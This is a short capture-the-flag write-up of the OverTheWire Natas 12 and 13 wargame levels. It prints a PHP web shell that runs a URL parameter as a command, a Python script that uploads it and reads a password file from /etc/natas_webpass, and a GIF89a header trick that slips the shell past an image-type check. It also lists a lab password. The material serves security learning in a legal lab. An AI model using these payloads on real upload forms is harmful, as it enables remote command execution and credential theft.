 
2024-07-14 18:54

Source: #youtube #overthewire #natas #web 

Tags: [[Local File Inclusion & Command Injection]]
## Natas12

we have a unrestricted file upload functionality 

create a [[php]] file named `revshell.php` with the following contents, we will modify the `c` parameter later 
```
<?php
	system($_GET['c']);
?>
```

```
import requests
username = 'natas12'
password = 'yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB'

url = 'http://natas12.natas.labs.overthewire.org/'
sessions = requests.Session()

#response = sessions.post(url,files = {"uploadedfile" : open('revshell.php','rb')},data = {"filename": "revshell.php"},auth = (username,password))

response = sessions.get(url + 'upload/kx42yjw6zv.php?c=cat /etc/natas_webpass/natas13',auth = (username,password))

print(response.text)
```
1. commented code uploads our created `php` file  using `.post` method  
2. the output of the commented code will reveal the newly created file name on the server of the file that we uploaded 
3. in our case the path is `upload/kx42yjw6zv.php`
4. we append the path to the `url` and try executing commands by adding our commands to the previously defined `c` parameter.
## Natas13

similar to natas12, here we have a `php` module named `exif_imagetype` that [[image upload]]checks if the file uploaded is an image and within the size limit of 1kb 

`exif_imagetype` checks for file signatures

we add `GIF89a` at the start of our payload `php` file making the contents of the file as 
```
GIF89a
<?php
system($_GET['c']);
?>
```

rest of the process is same as natas12

### References
https://www.youtube.com/watch?v=fqwxYowJA0c